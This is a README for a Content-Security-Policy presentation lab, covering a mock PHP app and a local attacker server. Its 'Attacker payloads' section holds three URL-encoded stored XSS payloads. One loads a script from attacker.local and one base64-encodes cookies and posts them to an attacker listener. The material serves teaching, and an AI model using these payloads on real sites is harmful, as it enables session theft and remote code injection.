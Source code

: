 # Research on Content-Security-Policy

## Introduction

💬 This folder contains all my work for the presentation about Content-Security-Policy (CSP).

💻 [VSCode](https://code.visualstudio.com/) was used as main [IDE](https://en.wikipedia.org/wiki/Integrated_development_environment).

💻 A distribution of [Chromium](https://chromium.woolyss.com/download/en/) for Windows was used to work on this research. It was stored in a folder, named **chromium**, located at the root of the project folder (added to [git ignore file](.gitignore)).

## Content

* 📄 Files:
  * [pitch.docx](pitch.docx): Contains the synopsis, in french, of the presentation.
  * [code.code-workspace](code.code-workspace): VScode workspace descriptor.
  * [scratchpad.md](scratchpad.md): Contains all the technical notes and information gathered during the work on the presentation.
* 📂 Folders:
  * [app](app/): Contains the mock web application with the XSS used for the context of the presentation.
  * [attacker](attacker/): Contains the web listeners and payloads used to exploit the XSS as the attacker.
  * [sources](sources/): Contains the original files of different elements used.

## Run the app

📑 **Step 1** - Add these entries to your **hosts** file:

```text
127.0.0.1 attacker.local
127.0.0.1 righettod.local
```

 👨‍💻 **Step 2** - Run the following command, from the **attacker** folder:

```powershell
PS> php -S localhost:9000
PHP 7.3.4 Development Server started 
Listening on http://0.0.0.0:9000
```

👨‍💻 **Step 3** - Run the following command, from the **app** folder:

```powershell
PS> php -S localhost:8000
PHP 7.3.4 Development Server started 
Listening on http://0.0.0.0:8000
```

🌏 Then, browse on <http://localhost:8000> to access the sample app.

## Attacker payloads

😈 This is the content to add into the file [comments.json](app/store/comments.json) of the app to simulate the differents stored XSS performed by the attacker:

```json
[
    {
        "userName": "remote payload",
        "userEmail": "dom@attacker.lu",
        "userComment": "%3Cimg+src%3D%27x%27+onerror%3D%27%24.getScript%28%5C%22%2F%2Fattacker.local%3A9000%2Fpayload.js%5C%22%29%27%3E"
    },
    {
        "userName": "embedded payload v1",
        "userEmail": "dom@attacker.lu",
        "userComment": "%3Cimg%20src%3D%27x%27%20onerror%3D%27fetch%28%5C%22%2Fapi%2Ephp%3Fsource%3Dxss%5C%22%29%3Balert%28%5C%22Evil%20code%20loaded%20%3A%29%5C%22%29%3B%27%3E"
    },
    {
        "userName": "embedded payload v2",
        "userEmail": "dom@attacker.lu",
        "userComment": "%3Cimg%20src%3D%27x%27%20onerror%3D%27let%20cke%3Dbtoa%28document%2Ecookie%29%3Blet%20bdy%3Ddocument%2EgetElementsByTagName%28%5C%22body%5C%22%29%5B0%5D%3Blet%20frm%3Ddocument%2EcreateElement%28%5C%22form%5C%22%29%3Bfrm%2EsetAttribute%28%5C%22method%5C%22%2C%5C%22post%5C%22%29%3Bfrm%2EsetAttribute%28%5C%22action%5C%22%2C%5C%22%2F%2Fattacker%2Elocal%3A9000%2Flistener%2Ephp%5C%22%29%3Blet%20prm%3Ddocument%2EcreateElement%28%5C%22input%5C%22%29%3Bprm%2EsetAttribute%28%5C%22type%5C%22%2C%5C%22hidden%5C%22%29%3Bprm%2EsetAttribute%28%5C%22name%5C%22%2C%5C%22data%5C%22%29%3Bprm%2EsetAttribute%28%5C%22value%5C%22%2Ccke%29%3Bfrm%2EappendChild%28prm%29%3Bbdy%2EappendChild%28frm%29%3Bfrm%2Esubmit%28%29%3B%27%3E"
    }
]
```

## References

* [Base of the mock web app](https://themewagon.com/themes/fruitables-free/).
* [PHP download for Windows](https://windows.php.net/download#php-8.3).
* [Chromium download](https://chromium.woolyss.com/download/en/).
